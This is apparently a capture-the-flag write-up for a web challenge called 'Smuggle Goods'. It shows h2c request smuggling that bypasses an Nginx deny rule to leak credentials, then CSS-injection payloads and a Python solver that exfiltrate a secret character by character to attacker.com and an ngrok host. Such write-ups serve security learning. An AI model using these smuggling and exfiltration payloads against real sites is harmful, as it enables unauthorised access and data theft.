





# Smuggle Goods

## Description

This is a bad situation. Rio has been arrested, while he was helping Tokyo to escape. Tamayo has kept him in a very secret prison cell. Help Tokyo to get the secret cell details.

## Solution

Browsing to the URL we find JSON response.

```bash
curl -s -k https://3.23.94.118:9002/ | jq .
{
  "Message": "Welcome to Cell Controller API"
}
```

Let's fuzz the API endpoints using `ffuf`.

```bash
ffuf -u https://3.23.94.118:9002/FUZZ -w /usr/share/wordlists/dirb/common.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : https://3.23.94.118:9002/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

_code                   [Status: 200, Size: 44, Words: 5, Lines: 1]
                        [Status: 200, Size: 44, Words: 5, Lines: 1]
.ssh                    [Status: 200, Size: 44, Words: 5, Lines: 1]
.subversion             [Status: 200, Size: 44, Words: 5, Lines: 1]
.bashrc                 [Status: 200, Size: 44, Words: 5, Lines: 1]
```

Being same response status, size, words and lines we can't proceed further on this enumeration. Since its API we can try to fuzz generic paths such as `/api/v1` and `/api/v2`.

```bash
ffuf -u https://3.23.94.118:9002/api/v2/FUZZ -w /usr/share/wordlists/dirb/big.txt -fw 5

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : https://3.23.94.118:9002/api/v2/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response words: 5
________________________________________________

config                  [Status: 200, Size: 568, Words: 126, Lines: 30]
credentials             [Status: 403, Size: 162, Words: 4, Lines: 8]
```

It revealed two endpoints. 

```bash
curl https://3.23.94.118:9002/api/v2/config -k 

events {
        worker_connections 768;
        # multi_accept on;
}

http {
server {
    listen       443 ssl;
    server_name  localhost;

    ssl_certificate       /etc/nginx/ssl/nginx.crt;
    ssl_certificate_key   /etc/nginx/ssl/nginx.key;

    location /cell-dev/ {
     proxy_pass http://localhost:8000/;
    }

    location / {
     proxy_pass http://localhost:9999;
     proxy_http_version 1.1;
     proxy_set_header Upgrade $http_upgrade;
     proxy_set_header Connection $http_connection;
    }

    location /api/v2/credentials {
     deny all;
    }
}
}
```

Access to `credentials` is restricted using Nginx server access modules. We find a `/cell-dev/` path from the config. There is an application present in this path. 


Since we don't have credentials, we should find a workaround to gain access to credentials. Server config has http_upgrade meaning Nginx can support protocol upgrade to HTTP/2. It is very clear from config that it is proxying API requests to a service running on port 9999 locally. The `cell-dev` application is proxied to another service running on port 8000 locally. This can be depicted as below. 



If the backend API supports HTTP/2 we can perform request smuggling via HTTP/2 Cleartext (h2c). This is very well detailed in [this](https://bishopfox.com/blog/h2c-smuggling-request) blogpost. Let's download the [h2csmuggler](https://raw.githubusercontent.com/BishopFox/h2csmuggler/master/h2csmuggler.py) script and test this theory. 

```bash
wget https://raw.githubusercontent.com/BishopFox/h2csmuggler/master/h2csmuggler.py
python3 h2csmuggler.py -x https://3.23.94.118:9002 https://3.23.94.118:9002/api/v2/credentials

b'GET / HTTP/1.1\r\nHost: 3.23.94.118\r\nAccept: */*\r\nAccept-Language: en\r\nUpgrade: h2c\r\nHTTP2-Settings: AAMAAABkAARAAAAAAAIAAAAA\r\nConnection: Upgrade, HTTP2-Settings\r\n\r\n'
b'HTTP/1.1 101 Switching Protocols\r\nServer: nginx/1.18.0 (Ubuntu)\r\nDate: Thu, 21 Apr 2022 09:47:54 GMT\r\nConnection: upgrade\r\nUpgrade: h2c\r\n\r\n'
[INFO] h2c stream established successfully.
:status: 200
content-type: application/json
content-length: 44
date: Thu, 21 Apr 2022 09:47:54 GMT

{"Message":"Welcome to Cell Controller API"}

[INFO] Requesting - /api/v2/credentials
:status: 200
content-type: application/json
content-length: 68
date: Thu, 21 Apr 2022 09:47:54 GMT

{"username":"tamayo","password":"dCf3VkFt04Ds92S","app":"/cell-dev"}
```

This is successful and we get credentials. Login is success with these credentials. 


`Cell Data` is the only item that is accessible. 



This has certain cell locker details. Since we're not enough privileged the locker keys are not visible. Creating new records we can see the entry that we created. 



It also states that the new entry is under review. Could be that admin is reviewing these data periodically. After sometime we can see that the data is removed by admin. Well yeah you thought it right, there is potential space for XSS here which may help in stealing admin cookies. But NOPE, our session has `HttpOnly` flag set, probably this is same for admin as well. Still we can leak locker keys through XSS by reading DOM and exfiltrating data through either DNS or HTTP channels. Let's test if there is possible JavaScript injection in this feature. We can test this quick by trying below payload. 

```
'"><1337;[]()://
```



The`<>` tags are HTML encoded and this won't help us injecting anything in this context. We also see a hidden param `mark` which sends `green` for every new data insertion to highlight the new data in the webpage. Let's test this parameter. 

```
https://3.23.94.118:9002/cell-dev/update?cno=&lid=&lkey=&mark=%27%22%3E%3C1337;[]()://
```



Here the tags are replaced instead of encoding. Testing URL encoding didn't worked as well. But we have possible context where we can inject CSS. Reading some references we can find [this](https://www.invicti.com/blog/web-security/private-data-stolen-exploiting-css-injection/) awesome blogpost which shows we can steal sensitive data with style. Let's hack with style :muscle:

Guessing the flag could be in one of locker keys, we can try to retrieve its value using CSS wild card selectors. Lets test if this is the case. 

```html
green;}input[name="key"][value*="ACVCTF{"] {
      background: url(https://attacker.com/?ACVCTF{)
```

We can use this payload to test. Stand up [ngrok](https://ngrok.com/) on port 80 replace url with ngrok URL. 

```bash
sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
127.0.0.1 - - [21/Apr/2022 06:11:45] "GET /?ACTCTF{ HTTP/1.1" 200 -
```

After 2-3mins we get a hit from server saying that the flag is present in one of locker keys. Using wild card search we can loop over alphabets and digits finding char by char. Manually it takes good amount of time to enumerate the flag. This can be automated to reduce manual efforts.  

```python
#!/usr/bin/python3
import string
import requests
from pwn import *
from time import sleep
import concurrent.futures
from bs4 import BeautifulSoup

requests.packages.urllib3.disable_warnings()

url = 'https://3.23.94.118:9002/cell-dev'
flag = 'ACVCTF{'

def trigger(url,flag,c):
	# Drop the payloads
	for i in string.ascii_lowercase+string.digits+'_}':
		requests.get('''%s/update?mark=green;}input[name="key"][value*="%s%s"] {background: url(http://78d6-103-220-81-252.ngrok.io/?%s)'''%(url,flag,i,i),
				cookies = {'session':c},verify=False
				)

def listener(url,flag):
	# Start listener
	l = listen(80).wait_for_connection()
	f = l.recvline().strip().decode('utf-8').split('?')[1].split(' ')[0]
	l.close()
	return f

if __name__=="__main__":
	r = requests.post(
			url+'/login',
			data = {'username':'tamayo','password':'dCf3VkFt04Ds92S'},
			allow_redirects=False,
			verify=False
			)
	cookie = r.headers['Set-Cookie'].split(';')[0].split('=')[1]
	while True:
		r = requests.get(f'{url}/data',cookies={'session':cookie},verify=False)
		msg = BeautifulSoup(r.text,'lxml')
		if len(msg.find_all('tr'))>9:
			log.info('Waiting for data cleanup')
			sleep(5)
		else:
			with concurrent.futures.ThreadPoolExecutor() as executor:
				future = executor.submit(listener, url, flag)
				executor.submit(trigger, url, flag, cookie)
				flag+=future.result()
			log.success(flag)
```

The script does below. 

* Checks if data is removed by admin then injects multiple records looping over all possible characters. 
* Starts listener on port 80 and waits for connections. 
* Once callback received it trims flag value from HTTP request param and prints the results. 
* Appends the results and continues the attack till we get full flag.

The output looks like below.

```bash
sudo ./solver.py 
[*] Waiting for data cleanup
[*] Waiting for data cleanup
[+] Trying to bind to :: on port 80: Done
[+] Waiting for connections on :::80: Got connection from ::1 on port 43020
[*] Closed connection to ::1 port 43020
[+] ACVCTF{t
[*] Waiting for data cleanup
[*] Waiting for data cleanup
[+] ACVCTF{th
[*] Waiting for data cleanup
[+] ACVCTF{th3
[*] Waiting for data cleanup
[*] Waiting for data cleanup
....
[+] ACVCTF{th3r3_1s_n0_turn1ng_b4ck}
```

> Note: Full flag enumeration takes around 1.12hrs as the bot configured to view the page every 3mins. But the automation can be totally adjusted to enumerate this much more faster with more aggressive CSS selectors.  

